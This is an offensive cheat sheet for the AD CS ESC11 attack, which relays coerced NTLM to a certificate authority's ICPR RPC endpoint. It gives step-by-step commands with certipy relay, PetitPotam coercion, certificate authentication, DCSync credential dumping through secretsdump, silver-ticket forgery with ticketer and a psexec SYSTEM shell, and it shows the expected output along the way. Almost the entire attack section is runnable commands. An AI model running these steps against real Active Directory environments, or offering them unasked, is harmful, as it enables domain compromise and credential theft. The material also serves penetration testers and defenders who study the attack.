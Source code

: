 # ESC11—NTLM Relay to AD CS ICPR Endpoints

## Theory

> [!Overview] Title
> ESC11 mirrors ESC8 but targets the **MS-ICPR RPC** enrollment interface instead of HTTP web enrollment. The ICPR interface can (optionally) enforce an NTLM integrity check via the `IF_ENFORCEENCRYPTICERTREQUEST` flag. If this enforcement is **disabled** (often for legacy interoperability), an attacker can **relay coerced NTLM** to the CA’s ICPR endpoint and request a certificate for a **machine or user** whose auth was relayed. With a machine (or DC) certificate, the attacker can authenticate as that principal (e.g., perform **DCSync** or forge **silver tickets**).

## Requirements

* **ICPR encryption enforcement disabled** on the CA:

  * In practice, `Enforce Encryption for Requests: Disabled` and `Request Disposition: Issue` (as shown by `certipy find`).
* A **published template** that allows **computer enrollment** with **Client Authentication** (e.g., `Machine`/`Computer`, or `DomainController` for DCs).
* Ability to **coerce NTLM** from a target (e.g., **PetitPotam**, **PrinterBug**, **Coercer**).
* Network access to the CA’s **RPC/DCOM** (e.g., 135 + dynamic RPC).
* Tooling: `certipy`, coercion tool of choice, `impacket` (`secretsdump.py`, `ticketer.py`, `psexec.py`).
 
---

## Linux

### Enumerate CA and ICPR Settings

```bash
certipy find -u '<USER>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Confirm: Web Enrollment (not required for ESC11), Request Disposition: Issue,
# and especially: Enforce Encryption for Requests: Disabled  => vulnerable to ESC11
```

### Step 1 — Start NTLM Relay to ICPR (RPC)

```bash
sudo certipy relay -target "rpc://<ADCS_IP>" -ca "<CA_NAME>" -template <RELAY_TEMPLATE>
# Example <RELAY_TEMPLATE>: DomainController (for DCs) or Machine/Computer (for other hosts)
# Certipy listens on 0.0.0.0:445 and relays to the CA over RPC/ICPR
```

### Step 2 — Coerce Authentication from Target

**PetitPotam (example):**

```bash
python3 PetitPotam.py -u '<USER>' -p '<PASS>' -d '<DOMAIN>' <LISTEN_IP> <DC_IP>
# Triggers the target to authenticate to <LISTEN_IP> (your relay listener)
```

> Alternatives: **Coercer**, **PrinterBug**, etc. If one vector is patched/hardened, try another machine or method.

### Step 3 — Receive and Save the Relayed Certificate

```text
[*] Attacking user '<DC_HOSTNAME>$@<DOMAIN_SHORT>'
[*] Requesting certificate for '<DC_HOSTNAME>$' with template '<RELAY_TEMPLATE>'
[*] Got certificate with DNS Host Name '<DC_FQDN>'
[*] Saved certificate and private key to '<PFX_FILE>'
```

### Step 4 — Authenticate with the Certificate

```bash
certipy auth -pfx '<PFX_FILE>'
# => Writes Kerberos ccache (e.g., '<CCACHE_FILE>') and may print the NT hash for the account
```

---

## Post-Exploitation Paths

### A) DCSync (when cert/hash is for a DC)

Using the **TGT/ccache**:

```bash
KRB5CCNAME=<CCACHE_FILE> secretsdump.py -k -no-pass <DC_FQDN>
# Dumps NTDS.DIT secrets (e.g., <DOMAIN>\\Administrator NT hash)
```

Using the **NT hash** directly:

```bash
secretsdump.py '<DC_HOSTNAME>$'@<DC_FQDN> -hashes :<NTHASH>
```

### B) Silver Ticket (for non-DC machine certs)

1. Retrieve **Domain SID**:

```bash
lookupsid.py '<MACHINE_ACCOUNT>$'@<DC_IP> -hashes :<NTHASH>
# Domain SID: <DOMAIN_SID>
```

2. Forge ticket for a service (e.g., CIFS):

```bash
ticketer.py -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn cifs/<DC_FQDN> Administrator
# Saves Administrator.ccache
```

3. Pass-the-Ticket:

```bash
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass <DC_FQDN>
# Expect a SYSTEM shell on <DC_HOSTNAME>
```

---

## Notes & Troubleshooting

* `ntlmrelayx.py` may lack ICPR support; prefer **certipy** for ESC11 relays.
* If coercion output shows `EfsRpcOpenFileRaw is patched`, try other EFSRPC functions or different vectors (e.g., **Coercer**).
* Ensure CA name is correct (`-ca "<CA_NAME>"`); certipy usually prints it during `find`.
* If relay **times out**, confirm 445 reachability from victim to your listener, and that RPC/135 is reachable from your relay to the CA.
* Kerberos requires proper name resolution; configure `/etc/hosts` or DNS for `<DC_FQDN>`/`<ADCS_HOST_FQDN>` as needed.
